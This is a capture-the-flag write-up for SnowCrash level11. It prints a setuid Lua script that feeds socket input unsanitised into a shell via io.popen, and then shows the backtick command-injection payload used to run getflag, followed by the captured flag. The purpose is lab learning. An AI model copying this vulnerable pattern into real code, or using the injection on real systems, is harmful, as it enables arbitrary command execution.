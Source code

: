 
## level11
Here are the enumeration results
```
level11@SnowCrash:~$ file level11.lua
level11.lua: setuid setgid a lua script, ASCII text executable
```

We are presented with a lua file, here is the code.
```lua=
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Looks like the code is already running in a server of port 5151 on localhost, and it reads data from the body, put it through the hash function and sends a respose.

However, looking at the code, we can deduce that there is no point trying to crack the encryption since we cant inject anything into the response. We can however, use command substitution and output the result in a file, and thats what we did

```
`getflag > /dev/shm/flag`
```

we got the flag in `/dev/shm/flag` `fa6v5ateaw21peobuub8ipe6s`
